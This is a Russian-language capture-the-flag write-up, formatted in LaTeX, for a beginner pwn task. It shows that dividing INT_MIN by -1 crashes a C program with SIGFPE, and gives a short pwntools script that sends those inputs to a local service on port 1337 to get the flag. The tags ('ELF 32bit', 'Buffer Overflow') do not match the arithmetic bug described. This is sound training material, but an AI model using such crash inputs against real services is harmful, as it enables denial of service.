 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}
\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}



\textbf{Теги:} ELF 32bit, C, Buffer Overflow, baby\vspace{\baselineskip}
\end{document}
